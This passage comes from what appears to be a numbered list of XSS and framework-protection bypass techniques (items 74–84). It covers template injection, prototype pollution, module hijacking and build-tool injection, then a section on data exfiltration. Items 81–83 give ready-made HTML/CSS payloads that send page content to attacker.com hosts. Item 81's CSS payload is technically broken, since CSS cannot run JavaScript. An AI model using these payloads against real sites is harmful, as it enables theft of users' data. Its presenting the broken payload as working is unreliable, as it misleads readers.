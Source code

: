 ### 74. Thymeleaf expression injection
**Bypass:** `[[${payload}]]` with inline expressions
**Explanation:** If user input reaches expression evaluator, code execution possible.

### 75. Prototype pollution in framework
**Bypass:** Overwrite framework's security functions through prototype chain
**Explanation:** `Array.prototype.constructor = {...}` can pollute all framework code.

### 76. Framework version detection and exploitation
**Bypass:** Detect framework version, exploit known vulnerabilities in that version
**Explanation:** Using fingerprinting to target version-specific bypasses.

### 77. Unsafe deserialization
**Bypass:** If framework deserializes JSON, inject malicious object structure
**Explanation:** Object.assign() or similar can be exploited to gain execution.

### 78. Require/import hijacking
**Bypass:** Override module resolution to load attacker's code
**Explanation:** If module loading isn't protected, load fake module with XSS.

### 79. Webpack/Build tool bypass
**Bypass:** Exploit webpack config to inject code into bundle at build time
**Explanation:** If build pipeline accessible, inject code directly into bundles.

### 80. Framework configuration object injection
**Bypass:** Modify framework configuration object at runtime to disable XSS protection
**Explanation:** If configuration object stored in modifiable location, change CSP bypass settings.

---

## SECTION 7: DATA EXFILTRATION WITHOUT EXECUTING CODE (81-90)

### 81. CSS Background Image Exfiltration
**Bypass:** `<style>.class { background: url("https://attacker.com/?data=" + btoa(document.body.innerHTML)); }</style>`
**Explanation:** CSS can load URLs that include query parameters with stolen data.

### 82. DNS Exfiltration via CSS
**Bypass:** `<style>@import url("http://stolen-data.attacker.com/");</style>`
**Explanation:** DNS lookup for imported URL leaks data in subdomain.

### 83. Pixel tracking
**Bypass:** `<img src="https://attacker.com/track?data=stolen" />` or `<img src="x" onerror="this.src='...?data=stolen'">`
**Explanation:** Image requests to attacker domain exfiltrate data in URL.

### 84. Script source leak
**Bypass:** Load script that returns 404, error message contains sensitive info
**Explanation:** HTTP status messages or error responses leak information.
